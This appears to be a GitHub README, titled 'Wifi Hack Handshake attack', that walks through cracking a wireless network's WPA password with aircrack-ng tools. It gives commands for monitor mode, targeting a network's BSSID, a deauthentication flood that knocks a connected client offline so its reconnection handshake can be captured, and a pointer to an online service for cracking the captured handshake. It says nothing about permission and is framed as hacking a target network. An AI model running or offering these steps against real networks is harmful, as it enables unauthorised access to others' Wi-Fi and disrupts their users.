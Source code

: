 <h1 align="center">Wifi Hack Handshake attack</h1>

[![N|dc](https://i.hizliresim.com/3vwdudh.png)](https://discord.gg/5sYSzWQJ3Z)

<details> 
 <summary><strong>Contents (İçindekiler)</strong></summary>
 <p>

* Monitor - Managed mod
  - [mon & man](#monman)
* Airodump-ng
  - [Gathering information](#infonet)
* Aireplay-ng
  - [Attack/Handshake](#attack)
* Decrypt Handshake
  - [Dec. Handshake file](#decrypt)

<br>
</details>

# Wifi Hack

## Catch Handshake

### ([▲](#top)) Monitor & Manage <a name="monman"></a>
`Turning on monitor mode`, example usage:
- `airmon-ng start <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0
```
<a href="https://i.hizliresim.com/jr314du.png">Airmon</a></br>
<a href="https://i.hizliresim.com/74x8rav.png">iwconfig</a>

`Turning off monitor mode`, example usage:
- `airmon-ng stop <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng stop wlan0
```

### ([▲](#top)) Gathering information about networks <a name="infonet"></a>

`start monitoring networks`, airodump-ng <interface> example usage:

```
┌──(root💀kali)-[~]
└─# airodump-ng wlan0mon
```
<a href="https://www.hizliresim.com/jemkzmg.png">Airodump</a>

```
BSSID = MAC Address
Power = PWR - Signal power
Data = the data we have
CH = Channel - What channel is it on
ENC = Encryption model
CIPHER = Decrypton model
ESSID = network name
Example airodump-ng usage:
```
- For the information gathering and deauthentication attack for the network to be attacked, we first need to enter the following line of code, example usage:
`airodump-ng --bssid <bssid> --channel <channel_number> --write <filename> <interface>`

```
┌──(root💀kali)-[~]
└─# airodump-ng --bssid 0A:1B:2C:3D:4E:5F --channel 5 --write handshake_file wlan0mon
```

### ([▲](#top)) Attack target <a name="attack"></a>

- Deauthentication attack, The product connected to wifi needs to be dropped from the network. Example usage:

`aireplay-ng --deauth <#packets> -a <target_MAC> -c <station> <interface>`

```
┌──(root💀kali)-[~]
└─# aireplay-ng --deauth 10000 -a 0A:1B:2C:3D:4E:5F -c 0A:1B:2C:3D:4E:5F wlan0mon
```
<a href="https://i.hizliresim.com/i6g03ii.png">Aireplay</a>

NOTE: Our goal here is to remove the user connected to our target network from the network and reconnect, and to capture and decrypt the encrypted numbers that occur in the air when the user wants to reconnect to the network.

### ([▲](#top)) Decrypt Handshake <a name="decrypt"></a>

- Previously, we were able to crack handshake files with the aircrack-ng command, but these days could take weeks, with the resource I will give you, you can crack the handshakes you have captured without even having to keep your computer open :)

`https://hashes.com/en/decrypt/hash`





`Soon, the program written in python will come.`

You can support us by joining our community, thanks for reading. > https://discord.gg/5sYSzWQJ3Z